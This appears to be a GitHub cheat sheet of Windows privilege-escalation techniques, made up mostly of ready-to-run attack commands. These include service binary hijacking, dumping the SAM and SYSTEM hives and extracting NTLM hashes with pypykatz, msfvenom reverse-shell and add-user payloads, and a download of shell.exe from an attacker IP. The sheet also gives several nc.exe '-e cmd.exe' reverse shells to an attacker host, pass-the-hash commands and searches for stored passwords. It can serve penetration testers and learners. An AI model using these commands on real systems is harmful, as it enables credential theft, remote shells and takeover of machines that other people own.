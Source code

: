 #####################################
Windows Privilege Escalation Examples
#####################################

<details>
<summary>Weak Service Permissions</summary>
 <br> 
========================

Writable Service Executables
----------------------------

If a services is found which runs as SYSTEM or Administrator level users, and it has weak file permissions, we may be able to replace the service binary, restart the service, and escalate privileges.

Use wmic to extract a list of service executables:

.. code-block:: none

    for /f "tokens=2 delims='='" %a in ('wmic service list full^|find /i "pathname"^|find /i /v "system32"') do @echo %a >> c:\windows\temp\services.txt

If wmic is not available:

.. code-block:: none

    sc query state= all | findstr "SERVICE_NAME:" >> servicenames.txt
    FOR /F "tokens=2 delims= " %i in (servicenames.txt) DO @echo %i >> services.txt
    FOR /F %i in (services.txt) DO @sc qc %i | findstr "BINARY_PATH_NAME" >> path.txt

Then use either accesschk.exe, cacls, or icacls to list the access permissions associated with each service executable:

.. code-block:: none

    for /f eol^=^"^ delims^=^" %a in (c:\windows\temp\services.txt) do cmd.exe /c accesschk.exe /accepteula -qv "%a" >> accesschk.txt

    for /f eol^=^"^ delims^=^" %a in (c:\windows\temp\services.txt) do cmd.exe /c cacls "%a" >> cacls.txt

    for /f eol^=^"^ delims^=^" %a in (c:\windows\temp\services.txt) do cmd.exe /c icacls "%a" >> icacls.txt

With accesschk results, look for the following permissions:

.. csv-table::
    :header: "Permission", "Use Case"

    "SERVICE_ALL_ACCESS", "Can do anything."
    "SERVICE_CHANGE_CONFIG", "Can reconfigure the service binary."
    "WRITE DAC", "Can reconfigure permissions, leading to SERVICE_CHANGE_CONFIG."
    "WRITE_OWNER", "Can become owner, reconfigure permissions."
    "GENERIC_WRITE", "Inherits SERVICE_CHANGE_CONFIG"
    "GENERIC_ALL", "Inherits SERVICE_CHANGE_CONFIG"

With cacls and icacls, look for (F)ull Access, (M)odify access, (W)rite-only access, (WDAC) write DAC, or (WO) write owner.

Writable Service Objects
------------------------

Use accesschk.exe to find writable service objects:

.. code-block:: none

    accesschk.exe /accepteula -uwcqv "Authenticated Users" *

Query a vulnerable service:

.. code-block:: none

    sc qc <service>

Update the service binary path:

.. code-block:: none

    sc config <service> binpath= "<command>"

Update the name of the account which a service runs as:

.. code-block:: none

    sc config upnphost obj= ".\LocalSystem" password= ""

Stop / Start a service:

.. code-block:: none

    wmic service <service> call stopservice
    wmic service <service> call startservice

    net stop <service>
    net start <service>

    sc stop <service>
    sc start <service>

If the service fails to start because of a dependency, you can start the dependency manually, or remove the dependency:

.. code-block:: none

    sc config <service> depend= ""

All-in-one comnand:

.. code-block:: none

    sc config <service> binPath= "<command>" depend= "" start= demand obj= ".\LocalSystem" password= ""
</details>

<details>
<summary>SeBackupPrivilege</summary>
 <br> 
This specific privilege escalation is based on the act of assigning a user the SeBackupPrivilege. It was designed to allow users to create backup copies of the system. Since it is not possible to make a backup of something that you cannot read. This privilege comes at the cost of providing the user with full read access to the file system. This privilege must bypass any ACL that the Administrator has placed in the network. So, in a nutshell, this privilege allows the user to read any file on the entirety of the files that might also include some sensitive files.

Files like the SAM file or the SYSTEM registry file are particularly valuable to attackers. Once an attacker gains an initial foothold in the system, they can exploit this access to move up to an elevated shell. They do this by reading the SAM files and potentially cracking the passwords of high-privilege users on the system or network.

After connecting to the target machine using Evil-WinRM, we can check if the user we logged in has the SeBackupPrivilege. This can be done with the help of the whoami command with the /priv option. It can be observed from the image below that the user aarti has the SeBackupPrivilege.

    whoami /priv



## Exploiting Privilege on Windows
Now, we can start the exploitation of this privilege. As we discussed earlier that this privilege allows the user to read all the files in the system, we will use this to our advantage. To begin, we will traverse to the C:\ directory and then move to create a Temp directory. We can also traverse to a directory with read and write privileges if the attacker is trying to be sneaky. Then we change the directory to Temp. Here we use our SeBackupPrivilege to read the SAM file and save a variant of it. Similarly, we read the SYSTEM file and save a variant of it.

     cd c:\
     mkdir Temp
     reg save hklm\sam c:\Temp\sam
     reg save hklm\system c:\Temp\system

  

Transferring Files to Kali Linux
Now that the Temp directory contains the SAM and SYSTEM files, use the Evil-WinRM download command to transfer these files to your Kali Linux machine.

    cd Temp
    download sam
    download system
## Extracting Hashes with Pypykatz and Gaining Access
Now, we can extract the hive secrets from the SAM and SYSTEM files using the pypykatz. If not present on your Kali Linux, you can download it from its GitHub[https://github.com/skelsec/pypykatz]. It is a variant of Mimikatz cooked in Python. So, we can run its registry function and then use the –sam parameter to provide the path to the SAM and SYSTEM files. As soon as the command run, we can see in the demonstration below that we have successfully extracted the NTLM hashes of the Administrator account and other users as well.

    pypykatz registry --sam sam system

Now, we can use the NTLM Hash of the raj user to get access to the target machine as a raj user. We again used Evil-WinRM to do this. After connecting to the target machine, we run net user to see that raj user is a part of the Administrator group. This means we have successfully elevated privilege over our initial shell as the aarti user.

 </details>
<details>
<summary>Unquoted Service Pathss</summary>
 <br> 

----------------------

Find unquoted service paths:

.. code-block:: none

    wmic service get name,displayname,pathname,startmode | findstr /i "Auto" | findstr /i /v "C:\Windows\\" | findstr /i /v """

If the unquoted service path is :code:`C:\Program Files\path to\service.exe`, you can place a binary in any of the following paths:

.. code-block:: none

    C:\Program.exe
    C:\Program Files.exe
    C:\Program Files\path.exe
    C:\Program Files\path to.exe
    C:\Program Files\path to\service.exe

</details>
<details>
<summary>Scheduled Task/Job</summary>
 <br> 
An attacker can exploit Windows Task Scheduler to schedule malicious programs for initial or recurrent execution. For persistence, the attacker typically uses Windows Task Scheduler to launch applications at system startup or at predefined intervals. Furthermore, the attacker executes remote code under the context of a specified account to achieve Privilege Escalation.

Task Scheduler
 You can easily schedule an automatic job using the Task Scheduler service. When you utilize this service, you set up any program to run at a specific date and time that suits your needs. Subsequently, Task Scheduler evaluates the defined time or event criteria and runs the task once those conditions are met.

Abusing Schedule Task/Job
An attacker can escalate privileges by exploiting Schedule Task/Job. Following an initial foothold, we can query to obtain the list for the scheduled task.

    schtasks /query /fo LIST /V
This helps an attack to understand which application is attached to execute Job at what time.
 
 To obtain a reverse shell as NT Authority SYSTEM, first create a malicious EXE file that a scheduled task can execute. Using Msfvenom, we then generate the EXE file and inject it into the target system accordingly.

    msfvenom -p windows/shell_reverse_tcp lhost=192.168.1.3 lport=8888 -f exe > shell.exe
To abuse the scheduled Task, the attacker will either modify the application by overwriting it or may replace the original file from the duplicate. To insert a duplicate file in the same directory, we rename the original file as a file.bak.

Then downloaded malicious file.exe in the same directory with the help of wget command.
   
    powershell wget 192.168.1.3/shell.exe –o file.exe
Once the duplicate file.exe is injected in the same directory then, the file.exe will be executed automatically through Task Scheduler. As attackers make sure that netcat listener must be at listening mode for obtaining reverse connection for privilege shell.

    nc -lvp 8888
    whoami /priv

Detection
Tools such as Sysinternals[https://docs.microsoft.com/en-us/sysinternals/downloads/autoruns] Autoruns can detect system changes like showing presently scheduled jobs.
Tools like TCPView[https://docs.microsoft.com/en-us/sysinternals/downloads/tcpview] & Process Explore[https://learn.microsoft.com/en-us/sysinternals/downloads/process-explorer] may help to identify remote connections for suspicious services or processes.
View Task Properties and History: To view a task’s properties and history by using a command line
Schtasks /Query /FO LIST /V

Enable the “Microsoft-Windows-TaskScheduler/Operational” configuration inside the event logging service to report scheduled task creation and updates.
</details>
<details>
<summary>Cleartext Passwords</summary>
 <br> 

===================

Find passwords in arbitrary files:

.. code-block:: none

    findstr /si password *.txt *.xml *.ini

Find strings in filenames:

.. code-block:: none

    dir /s *pass* == *cred* == *vnc* == *.config*

Find passwords in all files:

.. code-block:: none

    findstr /spin "password" *.*

Common files which contain passwords:

.. code-block:: none

    type c:\sysprep.inf
    type c:\sysprep\sysprep.xml
    type c:\unattend.xml
    type %WINDIR%\Panther\Unattend\Unattended.xml
    type %WINDIR%\Panther\Unattended.xml
    dir c:*vnc.ini /s /b
    dir c:*ultravnc.ini /s /b
    dir c:\ /s /b | findstr /si *vnc.ini

Search for passwords in the registry:

.. code-block:: none

    reg query HKLM /f password /t REG_SZ /s
    reg query HKCU /f password /t REG_SZ /s
    reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"
    reg query "HKLM\SYSTEM\Current\ControlSet\Services\SNMP"
    reg query "HKCU\Software\SimonTatham\PuTTY\Sessions"
    reg query HKEY_LOCAL_MACHINE\SOFTWARE\RealVNC\WinVNC4 /v password

</details>
<details>
<summary>Passing the Hash</summary>
 <br> 
================

The following commands can be used to dump password hashes:

.. code-block:: none

    wce32.exe -w
    wce64.exe -w
    fgdump.exe

Remote
------

Pass the hash remotely to gain a shell:

.. code-block:: none

    pth-winexe -U <domain>/<username>%<hash> //<target-ip> cmd

Sometimes you may need to reference the target by its hostname (add an entry to /etc/hosts to make it resolve):

.. code-block:: none

    pth-winexe -U <domain>/<username>%<hash> //<target-hostname> cmd

Alternative:

.. code-block:: none

    export SMBHASH=<hash>
    pth-winexe -U <domain>/<username>% //<target-ip> cmd

Local
-----

Pass the hash locally using runas:

.. code-block:: none

    C:\Windows\System32\runas.exe /env /noprofile /user:<username> <hash> "C:\Windows\Temp\nc.exe <attacker-ip> 53 -e cmd.exe"

Pass the hash locally using PowerShell:

.. code-block:: none

    secpasswd = ConvertTo-SecureString "<hash>" -AsPlainText -Force
    mycreds = New-Object System.Management.Automation.PSCredential ("<user>", $secpasswd)
    computer = "<hostname>"
    [System.Diagnostics.Process]::Start("C:\Windows\Temp\nc.exe","<attacker-ip> 53 -e cmd.exe", $mycreds.Username, $mycreds.Password, $computer)

Pass the hash locally using psexec:

.. code-block:: none

    psexec64 \\<hostname> -u <username> -p <hash> -h "C:\Windows\Temp\nc.exe <attacker-ip> 53 -e cmd.exe"

</details>
<details>
<summary>Loopback Services</summary>
 <br> 
=================

Search for services listening on the loopback interface:

.. code-block:: none

    netstat -ano | findstr "LISTEN"

Use plink.exe to forward the loopback port to a port on our attacking host (via SSH):

.. code-block:: none

    plink.exe -l <attacker-username> -pw <attacker-password> <attacker-ip> -R <attacker-port>:127.0.0.1:<target-port>

</details>
<details>
<summary>AlwaysInstallElevated</summary>
 <br> 
=====================

AlwaysInstallElevated is a setting that allows non-privileged users the ability to run Microsoft Windows Installer Package Files (MSI) with elevated (SYSTEM) permissions.

Both the following registry values must be set to "1" for this to work:

.. code-block:: none

    reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
    reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

Create a malicious MSI:

.. code-block:: none

    msfvenom -p windows/adduser USER=pwned PASS=P@ssw0rd -f msi -o evil.msi

Use msiexec to run the malicious MSI:

.. code-block:: none

    msiexec /quiet /qn /i C:\evil.msi

</details>
<details>
<summary>Stored Credentials</summary>
 <br> 

==================

If there are stored credentials, we can run commands as that user:

.. code-block:: none

    $ cmdkey /list

    Currently stored credentials:

    Target: Domain:interactive=PWNED\Administrator
    Type: Domain Password
    User: PWNED\Administrator

Execute commands by using runas with the /savecred argument. Note that full paths are generally needed:

.. code-block:: none


    runas /user:PWNED\Administrator /savecred "C:\Windows\System32\cmd.exe /c C:\Users\Public\nc.exe -nv <attacker-ip> <attacker-port> -e cmd.exe"

   </details>
